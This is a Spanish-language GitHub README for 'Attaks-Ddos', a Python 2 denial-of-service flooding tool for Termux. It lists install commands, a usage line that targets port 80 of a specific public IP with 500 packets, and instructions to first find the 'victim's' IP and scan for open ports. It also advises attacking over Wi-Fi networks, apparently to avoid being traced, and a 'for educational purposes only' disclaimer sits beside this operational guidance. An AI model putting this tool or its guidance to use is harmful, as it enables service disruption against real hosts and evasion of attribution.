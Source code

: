 # Attaks-Ddos

Ataque de negación de servicio. Antes de usar esta herramienta primero debes de encontrar la dirección IP de la víctima y escanear dónde está abierto el puerto

# Nota

Esta herramienta es para sólo aprender los ataques DDOS recuerden que, ddos son sólo una pequeña parte y muy pequeño en el mundo de la piratería, así que no se sientan orgullosos si sólo pueden realizar ddos.

¡¡Recordar!! NO REALICE ATAQUES DOS/DDOS SIN USAR REDES WIFI!!!!

# 🦂 INTALACIÓN 🦂

$ pkg update && pkg upgrade -y

$ pkg install python2 -y

$ pkg install git -y

$ git clone https://github.com/Scorpio28-Oficial/Attaks-Ddos

$ ls

$ cd Attaks-Ddos

$ ls

$ python2 Attaks-Ddos.py <ip> <port> <packet>

__Ejemplo:__

python2 Attaks-Ddos.py 122.14.229.8 80 500

__Informatic in Termux__

https://t.me/Informatic_in_Termux_1

Esta herramienta es solo con fines educativos e informativos, el mal uso es responsabilidad de quien la utilize.

# EL CONOCIMIENTO ES LIBRE.

__By: Scorpio28__
